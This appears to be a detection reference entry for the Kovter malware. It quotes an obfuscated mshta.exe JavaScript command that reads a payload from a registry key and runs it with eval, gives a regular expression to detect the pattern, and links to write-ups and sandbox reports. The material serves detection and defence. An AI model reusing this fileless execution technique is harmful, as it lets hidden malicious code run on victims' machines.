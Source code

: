 ## Kovter


#### Commands
---

* Mshta.exe

1.
```
javascript:d7hcQ4a="vn";n0a=new%20ActiveXObject("WScript.Shell");Rtf7j="HIPc";X18ycI=n0a.RegRead("HKCU\\software\\tN32795\\74gjfzcsfI");jM5IV6m="QJ";eval(X18ycI);XIaL0uze="lYuLz1vG"
```

#### Regular Expressions
---

``
^(?=.*\bjavascript:\b)(?=.*\bWScript\.Shell\b)(?=.*\bRegRead\b)(?=.*\beval\b).*$
``

#### Resources
---

Technical write-ups:
* https://threatvector.cylance.com/en_us/home/threat-spotlight-kovter-malware-fileless-persistence-mechanism.html

Sandbox reports:
* https://www.hybrid-analysis.com/sample/5addc5c129282e9705b65b7156134e1c752a9ed2379a75471795c5c95e2a2110?environmentId=100
* https://www.hybrid-analysis.com/sample/f5be23df0cfd529674c9939bf11e4d0f61693f898cf989e7b7acf62202c0874e?environmentId=100

Notes:



 
